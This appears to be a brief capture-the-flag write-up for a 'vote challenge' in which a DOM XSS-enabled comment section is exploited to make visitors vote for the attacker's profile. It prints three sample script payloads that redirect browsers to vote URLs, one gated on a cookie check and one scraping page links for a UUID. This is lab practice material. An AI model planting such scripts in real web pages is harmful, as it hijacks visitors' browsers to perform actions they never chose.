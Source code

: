 ### 1. vote challenge. 

>  Everyone can register and create their own profile. The main page has a public comment section. The comment will be DOM XSS enabled, and vote by calling your profile vote/ca463d3bf6f74c59bf757d500b1fcf89. A winner will be announced every 5 minutes. A flag will be printed on the profile with the most votes.

#### sample payloads. 
```
<script> document.location = 'http://localhost:1339/vote/ca463d3bf6f74c59bf757d500b1fcf89'</script>
function sleep(ms) {

    return new Promise(resolve => setTimeout(resolve, ms));

}
```

```
<script>
async function go(){

await sleep(20);

if (document.cookie.indexOf('user') > -1 ) {
  window.location.replace('http://localhost:1339/vote/be1c1a788bd04360924ccb53709a30eb');
}


}

go();
</script>
```


```
reamb<script>let uuid; for (let a of document.querySelectorAll("a")) { if(a.textContent.includes('reamb')) uuid = a.href.split('/')[4] }; location.href = '/vote/' + uuid</script>
```
